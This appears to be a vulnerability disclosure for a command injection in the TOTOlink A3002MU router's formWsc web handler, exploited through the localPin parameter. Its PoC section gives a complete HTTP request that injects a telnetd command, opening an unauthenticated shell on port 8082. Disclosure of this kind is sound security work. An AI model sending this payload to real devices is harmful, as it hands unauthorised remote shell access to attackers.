





# TARGET

**Product:** TOTOlink A3002MU
 **Model:** A3002MU AC1200 Giga Wireless Router
 **Vendor:** TOTOLINK
 **Official Website:** https://www.totolink.net/
 **Firmware Version:** Hh-B20211125.1046

# BUG TYPE

**Command Execution Vulnerability (Command Injection)**

# Abstract

A command execution vulnerability exists in the TOTOlink A3002MU router. The vulnerability is located in the `/bin/boa` web server's `formWsc` interface and is related to the handling of the `localPin` parameter. Due to insufficient filtering of this user-controllable parameter, an attacker can inject shell metacharacters through a crafted HTTP request. Successful exploitation allows arbitrary command execution on the affected device.

# Details

The `formWsc` function was analyzed using IDA Pro. The `localPin` parameter is obtained from the HTTP request and then concatenated into a command string before execution. Because the firmware does not validate, escape, or filter the supplied value before invoking the system shell, injected shell syntax can change the intended command flow.



# POC

The affected endpoint is `POST /boafrm/formWsc HTTP/1.1`.

The crafted request or malicious URL used during verification is shown below:

```http
POST /boafrm/formWsc HTTP/1.1
Host: 192.168.0.1

sessionCheck=d5c0e890940bdb1c5621c888994a23e6&genPIN=&localPin=12345670;telnetd%20-p%208082%20-l%20/firmadyne/sh;&submit-url=/wlwps.htm
```

Before the attack, the router management interface is accessible and operating normally.

The malicious request or URL is sent to the target device during verification.

After the request is processed, port 8082 is opened and the injected telnet service can be reached without authentication, confirming command execution.









